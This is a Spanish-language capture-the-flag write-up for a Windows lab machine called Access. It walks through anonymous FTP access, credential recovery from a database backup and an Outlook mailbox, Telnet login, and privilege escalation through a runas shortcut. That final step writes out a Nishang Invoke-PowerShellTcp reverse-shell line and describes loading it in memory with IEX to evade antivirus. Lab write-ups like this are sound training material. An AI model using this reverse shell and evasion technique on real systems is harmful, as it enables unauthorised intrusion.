#Windows #AD #nishang #Runas
____

El acceso es un &amp;quot;fácil&amp;quot; dificultad de la máquina, que pone de relieve cómo las máquinas asociadas con la seguridad física de un entorno puede no ser en sí mismo seguro. También se destaca cómo FTP / archivos compartidos accesibles a menudo puede conducir a conseguir un punto de apoyo o movimiento lateral. Enseña técnicas para identificar y explotar las credenciales guardadas.
____

Iniciando la fase de reconocimiento, se realizó un escaneo con **RustScan** para identificar los puertos abiertos en el equipo, obteniendo los siguientes resultados:


<span class="center-text">Escaneo con RUSTSCAN</span>

Una vez obtenidos los resultados, se identificó que los puertos **21 (FTP), 23 (Telnet) y 80 (HTTP)** están abiertos. A partir de esta información, se procede con la enumeración del **puerto 21 (FTP)** para analizar posibles accesos, credenciales y configuraciones del servicio.


<span class="center-text">Acceso a ftp anonimamente</span>

Se observa que el servidor FTP permite acceso anónimo, lo que nos brinda la posibilidad de listar su contenido. Al acceder, identificamos la presencia de **dos directorios**, por lo que procedemos a enumerar su contenido. Como resultado, se obtienen los siguientes archivos:


<span class="center-text">Archivos encontrados</span>

Se identificaron **dos archivos** en el servidor FTP. Basándonos en sus extensiones:

- **`backup.mdb`**: La extensión **`.mdb`** indica que podría tratarse de una base de datos de **Microsoft Access**. Este tipo de archivos suele utilizarse para almacenar información estructurada y puede contener credenciales, registros o datos sensibles.
- **`archivo.zip`**: Un archivo comprimido que podría contener información relevante, por lo que es necesario analizar su contenido.

Procedemos a descargar ambos archivos para su análisis. Sin embargo, al intentar descargar **`backup.mdb`**, se presenta un **conflicto**. Esto puede deberse a **permisos restringidos**, **corrupción del archivo** o **configuración del servidor FTP** que impide su descarga directa.


<span class="center-text">Error de descarga</span>

Investigando un poco más sobre el funcionamiento de **FTP**, notamos que para descargar archivos que no son de texto (como bases de datos, imágenes o archivos comprimidos), es necesario activar el **modo binario**.

Al cambiar al **modo binario** antes de la descarga, logramos obtener el archivo **backup.mdb** exitosamente. Esto garantiza que el archivo se transfiera sin corrupción y pueda ser analizado correctamente.

Ahora, procederemos a examinar el contenido de ambos archivos en busca de información relevante.


<span class="center-text">Cambiando a binary y obtencion de archivo</span>

Al contar con ambos archivos, decidimos analizar primero el contenido del **archivo ZIP**, pero notamos que **está protegido con contraseña**, lo que impide su extracción inmediata. Dado que aún no contamos con la clave, dejamos esta parte pendiente para un posible ataque de fuerza bruta o revisión de pistas en otros archivos.

Pasamos entonces a investigar cómo abrir el archivo **`.mdb`** y encontramos un **visualizador en línea**, [mdoopener](https://www.mdbopener.com/) que nos permitirá explorar su contenido sin necesidad de herramientas locales. Procedemos a cargar el archivo en la herramienta para analizar si contiene información relevante, como credenciales, registros de acceso o configuraciones útiles.


<span class="center-text">Intento de descompresión de archivo zip</span>


<span class="center-text">Visualizador en linea de archivos mdb</span>

Al abrir y analizar el contenido del archivo **`.mdb`**, encontramos una tabla llamada **`auth_user`**, que almacena **usuarios y contraseñas**.

Inicialmente, intentamos utilizar estas credenciales para acceder a **Telnet**, pero **no tuvimos éxito**. Sin embargo, decidimos probar la contraseña extraída con el archivo **ZIP protegido**, y logramos **descomprimirlo exitosamente**.

Ahora procederemos a analizar el contenido del archivo extraído en busca de información relevante que pueda ayudarnos a obtener acceso al sistema o descubrir más pistas sobre su seguridad.


<span class="center-text">Credenciales contradas</span>


<span class="center-text">Extracción de datos</span>

Al analizar el archivo extraído, observamos que tiene la extensión **`.pst`**, lo que indica que se trata de un **archivo de almacenamiento de correos electrónicos de Microsoft Outlook**. Estos archivos suelen contener correos, contactos y otros datos de la cuenta de un usuario.

Dado que queremos examinar su contenido de manera más accesible, investigamos si existe un método para **convertir un archivo `.pst` a `.pdf`**


<span class="center-text">Conversion de pst a pdf</span>

Después de convertir el archivo **`.pst`** a **PDF**, lo analizamos y encontramos **un usuario y una contraseña** dentro de los correos almacenados.

Con esta nueva información, intentamos nuevamente autenticarnos en **Telnet**, y esta vez logramos acceder exitosamente al sistema. Como resultado de esta intrusión, **encontramos la primera flag**.


<span class="center-text">Credenciales encontradas</span>


<span class="center-text">Acceso al sistema</span>


<span class="center-text">Flag user</span>

# Privilege Escaltaion

Durante nuestra enumeración del sistema, identificamos un **archivo interesante** en el directorio **`Public/Desktop`**. Al analizarlo, notamos que se trata de un **acceso directo (`.lnk`)** que ejecuta comandos mediante `runas`, lo que indica que podría utilizarse para ejecutar procesos con **privilegios de administrador**.


<span class="center-text">Identificación de un acceso directo que corre como administrador</span>

Dado que `runas` permite ejecutar programas con otro usuario, exploramos formas de **escalar privilegios** mediante este mecanismo. Se nos ocurre utilizar **Nishang**, un conjunto de scripts en PowerShell para post-explotación, y aprovecharlo para **cargar una reverse shell en memoria**, evitando tocar el disco y evadiendo detecciones básicas.

Clonar repositorio de nishang

```bash
git clone https://github.com/samratashok/nishang.git
```

Después de clonar el repositorio de **Nishang**, tomamos el archivo **`Invoke-PowerShellTcp.ps1`** y lo modificamos agregando la siguiente línea al final:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress <tu_ip> -Port 4444
```

Una vez realizado el proceso anterior, utilizamos **IEX (Invoke-Expression)** para descargar y ejecutar el payload en memoria, evitando escribirlo en disco y reduciendo la posibilidad de detección por antivirus o herramientas de monitoreo.

Siguiendo estos pasos, procedemos a descargarlo y obtendremos la revshell


<span class="center-text">Ejecución como administrador de nuestra revshell</span>

<span class="center-text">Acceso como root</span>

Después de ejecutar el exploit con **IEX** y obtener la reverse shell con **privilegios de administrador**, ahora podemos **buscar y capturar la flag de root**.


<span class="center-text">Flag root</span>
